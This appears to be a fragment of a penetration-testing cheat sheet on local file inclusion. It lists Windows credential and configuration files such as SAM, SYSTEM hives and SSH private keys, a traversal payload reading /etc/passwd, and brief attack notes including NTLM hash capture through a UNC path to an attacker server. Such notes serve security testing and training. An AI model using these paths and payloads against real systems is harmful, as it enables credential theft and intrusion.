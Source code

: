 #### windows
```
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Users\$USER\.ssh\id_rsa
c:\windows\system32\drivers\etc\hosts
c:\Windows\repair\SAM
c:\Windows\repair\system
c:\Windows\System32\config\SAM
c:\Windows\System32\config\SYSTEM
c:\Windows\System32\config\RegBack\SAM
c:\Windows\System32\config\RegBack\system
c:\Windows\System32\config\RegBack\SAM.OLD
c:\Windows\System32\config\RegBack\SYSTEM.OLD
c:\windows\debug\netsetup.log
c:\windows\system.ini
c:\windows\win.ini
```
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

#### general
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-linux-and-windows_by-1N3%40CrowdShield.txt
```
file:///etc/passwd?/../../windows/win.ini
```
- enumerate users and then do a brute force (reading passwd, /home, C:/users)
- try list directories
- read leaked paths (descriptive errors)
    - brute to internal files
- php://input
- get ntlm response using UNC path (\\attackerServer\share)
- gopher
- what search internal? https://medium.com/@warrenbutterworth/oob-xxe-to-ssrf-to-windows-administrator-hashes-1f8ccd910624
